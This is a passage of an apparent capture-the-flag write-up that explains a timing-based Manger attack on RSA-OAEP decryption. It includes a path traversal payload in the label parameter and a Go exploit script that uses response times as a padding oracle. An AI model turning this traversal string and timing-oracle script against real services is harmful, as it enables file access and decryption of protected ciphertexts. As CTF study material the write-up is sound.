 will cause the decryption process to stop early, which is indicative of the condition $x^d \mod n \geq B$. Otherwise, if the check is passed, a hash is computed over the label. To make this timing difference as noticeable as possible, we want to use a large label. In the challenge source,

```js
  const oracle = new asmCrypto.RSA_OAEP(privkey, new asmCrypto.Sha256(), fs.readFileSync('./oracles_stuff/' + oracleName));
```

we see that the label parameter is vulnerable to a path traversal bug. We found that using the `../../../../../usr/local/bin/node` binary (about 40MB) gave good results.

There isn't much to solving the challenge other than that. Here's the exploit script that uses a very slightly modified version of the existing Manger attack [implementation](https://github.com/kudelskisecurity/go-manger-attack) (changed the oracle interface to use just one `Query` function, and included the label from the challenge in the decryption part of the attack). For some reason, the exploit isn't 100% reliable and for some ciphertexts, is only able to accurately recover half of the bits of the padded plaintext. Luckily my teammate spun up a DO droplet in the same datacenter as the server and the exploit ran relatively quickly, so we just kept running it and eventually the flag popped out.

```go
package main
import (
	"encoding/hex"
	"fmt"
	"net/http"
	"math/big"
	"time"
	"github.com/dvsekhvalnov/jose2go/base64url"

	. "exploit/mangerattack"
)

func get_time(url string) int64 {
    start := time.Now()
    resp, _ := http.Get(url)
    defer resp.Body.Close()
	t := time.Since(start)
    fmt.Println(t, t.Microseconds(), url)
	return t.Microseconds()
}

type Oracle struct {}

func (Oracle) Query(mcfe *big.Int) bool {
	url := "http://localhost:3000/ask?oracleName=../../../../../usr/local/bin/node&question="
	b := mcfe.Bytes()
	t := get_time(url + base64url.Encode(b))
	// short decryptions take around 20-50ms on average
	// long decryptions take 300ms+
	return t < 200000
}

func main() {
	// local values for testing
	N := FromBase16("B9081FCBE46C2E844C671311FD15A08C551EA4E66E193CC81D954421CE96E99D41A9FE84A6FBAB898EBF4FE5D0E2EFE578CFF643DDB77480137B09A88B6A95130E5E5D81451C85C3BEFE28E2284D0C20961238B1354B43C487ECB9C4570E6DE820CAB99F92FC44C7C661FD64F13B5A067F46B0A8617445161DCAF896B0E18F75")
	e := big.NewInt(int64(0x10001))
	ct_raw, _ := base64url.Decode("glgKGkawHLTOs5KjYaFSBMN1Q0r1XktCZXwZLXGCt6XTXnMsHbhdKH-rdl1gQcl7bAm0wOVL2Jz5fwMlfZBySiJ4fU1WQ79PZ391f10f_QiCpX6syglITxFfKNv_CJIEufaql-WjWTSJrulzYEVEUDFwuX1AixiTi0fchuLUVQ4")
	ct_hex := hex.EncodeToString(ct_raw)

	MangerAttack(ct_hex, N, e, Oracle{})
```